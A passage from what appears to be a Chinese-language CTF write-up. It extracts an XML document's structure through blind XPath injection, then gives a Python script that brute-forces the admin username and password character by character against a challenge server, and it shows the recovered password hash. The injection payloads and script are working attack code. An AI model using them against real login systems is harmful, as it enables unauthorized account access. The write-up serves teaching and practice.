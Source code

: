 同理，修改第13行为`"1' or substring(name(/root/*[position()=1]),"`
继续爆
![](http://err0r.top/wp-content/uploads/2020/11/wp_editor_md_d9d6c7dd34c55ce4ac4c4bf7cfd41870.jpg)

![](http://err0r.top/wp-content/uploads/2020/11/wp_editor_md_1c8d45d84748c0e9e051960ae5aaad97.jpg)

![](http://err0r.top/wp-content/uploads/2020/11/wp_editor_md_5faa142e73cad22c7b7bb46a3bf21d92.jpg)

最后爆出结构为/root/users/user[id]


开始猜测id为1的user节点下username值，其实能猜到的admin

payload：
```python
# -*- coding: utf-8 -*-
import requests
import re

baseurl = "http://114.55.165.246:8082/?username="

s = "qwertyuiopasdfghjklzxcvbnm1234567890"

result = []

for j in range(1,100):
    flag=0
    for i in range(0, 36):
        payload = "1' or substring(/root/users/user[id=1]/username,"
        payload += str(j)
        payload += ",1)='"
        payload += s[i]
        payload += "' or '1'='1"
        end = "&password=admin&submit=登录"

        url = baseurl + payload + end

        res = requests.get(url).content.decode("utf-8").split("</html>")[1]
        if (re.search("you",res)):
            result.append(s[i])
            flag = 1
            print("第"+str(j)+"位----------->"+s[i])
            break
    if flag==0:
        break
print(result)

# 爆密码就把username改成password

```
爆username
![](http://err0r.top/wp-content/uploads/2020/11/wp_editor_md_ad6cd97a1c90b91184c522c2fa3f21b8.jpg)
果然是admin

继续爆password
![](http://err0r.top/wp-content/uploads/2020/11/wp_editor_md_043bd76183bcb72eaa8b78f1a8ca23fa.jpg)


结果password=339db714647a1d66b85cd08442287841

登录一下，获得flag
![](http://err0r.top/wp-content/uploads/2020/11/wp_editor_md_746f811568a05eaea8109fe8b1ee9136.jpg)